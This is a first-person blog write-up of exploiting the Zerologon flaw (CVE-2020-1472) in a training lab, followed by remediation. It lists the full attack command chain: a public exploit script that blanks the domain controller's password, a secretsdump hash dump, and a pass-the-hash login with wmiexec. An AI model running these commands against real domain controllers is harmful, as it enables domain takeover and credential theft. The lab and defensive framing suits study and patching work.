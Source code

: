 # CVE - 2020–1472 (Zerologon Vulnerability)-Exploitation & Remediation

**NOTE**: This is my first vulnerability-related writeup and I have tried to write and explain in layman terms. There may be knowledge gaps in between, which I am trying my hardest to cover and understand

**I have tried to reproduce the vulnerability in this blog entry, while trying to understand  it's severity and impact**

**Section 1 — Exploiting Zerologon Vulnerability(CVE 2020–1472)**

**About the Vulnerability**

Netlogon is a service that runs on the Domain Controller. This service is responsible for authenticating user logins — effectively verifying the user is who they claim to be. As this function is one of the core functions of a Domain Controller, the Netlogon service cannot be stopped or firewalled off from networks of domain-joined computers.

* CVSS Score — 10
* Attack Complexity — Low
* Privileges Required — Low
* Vulnerability Found — July 2020

![](https://cdn-images-1.medium.com/max/1000/1\*zdJeAc4HdVPaL8jvpmfpWw.png)

**Exploitatable Point**

The Netlogon RPC service, used for computer and user authentication in Windows, also allows a computer to update its computer password within the domain. For several historical reasons, this service does not use standard authentication protocols to authenticate the computer. The vulnerability exists within the non-standard method used to authenticate.

Twitter thread providing a nice walkthrough — [https://twitter.com/\_dirkjan/status/1306280553281449985](https://twitter.com/\_dirkjan/status/1306280553281449985)

**Exploitation Walkthrough**

> What do you need?\
> Impacket — to capture password hashes and dump them\
> Windows 10 OS (on which the vulnerable service exists)\
> Windows 10 VM — to perform the exploit on\
> RangeForce’s ZeroLogon Vulnerability Lab (Guided Mode)

First, let’s clone the [impacket](https://github.com/SecureAuthCorp/impacket) repository from Github\
Step to install:-

> git clone [https://github.com/SecureAuthCorp/impacket.git](https://github.com/SecureAuthCorp/impacket.git)

Now, let’s copy the exploit too from Github \<cve-2020–1472-exploit.py>

Credits to [dirkjanm](https://github.com/dirkjanm).

> [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)

Export the exploit to /impacket/examples/CVE-2020–1472/

Now, let’s switch to this directory

By now, we have identified the following details about the vulnerable service:-

> NetBIOS computer name: DC\
> IP address: 192.168.0.4

> Syntax of exploit command:-\
> ./cve-2020–1472-exploit.py -n \<NetBIOS computer name> -t \<IP address>

Now to run the script and exploit

> ./cve-2020–1472-exploit.py -n DC -t 192.168.0.4

![](https://cdn-images-1.medium.com/max/1000/1\*yq9qEq8dTnIFQwn39Wt-Fw.png)

**What does this exploit do?**

It resets the Domain Controller’s account password to an empty string(easy login with a spacebar)

The gist: Your Domain Controller account’s password is a blank string &#x20;

**Next objective-**dump password hashes from the Domain Controller\
\


> Components required:-

> Domain Controller name\
> NetBios Name\
> IP Address of vulnerable host

We make use of the secretsdump.py module from Impacket to perform this task

> Password Dump command syntax- \
> python3 secretsdump.py -no-pass -just dc\<Domain/NETBIOS\_NAME\\$@IP>

(This command does not work with the simple execution command ./)

Filling in the blanks:-

> python3 secretsdump.py -no-pass -just-dc CONTOSO.AZURE/DC\\$@192.168.0.4

![](https://cdn-images-1.medium.com/max/1000/1\*t2iS-\_QDxa2kfwo3JlOdBw.png)

\
This leads to the dumping of around 60 password hashes:-

![](https://cdn-images-1.medium.com/max/1000/1\*GZye3Qhobt6Qf\_7HQruMxQ.png)

**Next objective** — Logging onto the account of ContosoAdmin (Domain Controller admin’s account) — using the account’s dumped hash

Scrolling through the dumped list, we find the appropriate entry:-

![](https://cdn-images-1.medium.com/max/1000/1\*KpuYcdLqTSeE6BvaneTOOQ.png)

Logging on to the server, using the wmiexec.py module:-\
\


> python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a2bd759faf686d052f5f7c8337a2ff51 CONTOSO.AZURE/ContosoAdmin@192.168.0.4

We are in!

![](https://cdn-images-1.medium.com/max/1000/1\*1Ai0FvKkDd-jXyAVQLsHzg.png)

**Section 2 — Remediation from the Vulnerability**

How?&#x20;

* Manually restoring your password (or)
* Update and install the August 2020 & February 2021 Patch Tuesday release for the same (patches released in two phases)

**(Manual Password Restore) — How does it work?**

As you exploit the vulnerability, the password hash is being erased and replaced with a blank string in the SAM file, from where your computer cross-checks passwords as a user logs in

Using the same methodology, we copy your compromised password (blank space in this case) from the SAM hive to the Domain Controller of the exploited machine. Further, copy it to your Kali VM and then delete it from the Domain Controller

Which we achieve from the following steps:-

![](https://cdn-images-1.medium.com/max/1000/1\*GHrg-fhyBO30lYWDRwwhWw.png)

Now exiting the Windows machine, using exit- to the Kali machine

The next task is to parse the obtained SAM file, from the Domain Controller

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL\
> Why parse? — To see where accounts are mapped to and to gain other information

![](https://cdn-images-1.medium.com/max/750/1\*q8r1dbLK4yGkr2R2QhjSAQ.png)![](https://cdn-images-1.medium.com/max/1000/1\*ZBl3hRpBypYvSE4FreGP-A.png)

> Recovered password hash — 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Now to place the final piece of the jigsaw — restoring the original password. For that, we have a customized script named — reinstall\_original\_pw.py

> Syntax — reinstall\_original\_pw.py \<DC\_NETBIOS\_NAME> \<DC\_IP\_ADDR> \<ORIG\_NT\_HASH>

Filling in the blanks here,

> ./reinstall\_original\_pw.py DC 192.168.0.4 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Conclusion:-

This is an easy vulnerability to exploit, with less complexity, considering that we are still dependant on IT Systems to perform administrative tasks. This may be disputed, but 100% security may be a myth unless drastic action is taken to respond and patch even the slightest of issues

Connect with me on LinkedIn — [https://www.linkedin.com/in/noel--varghese](https://www.linkedin.com/in/noel--varghese)

Thank you for the time taken to devour this red team blog entry.
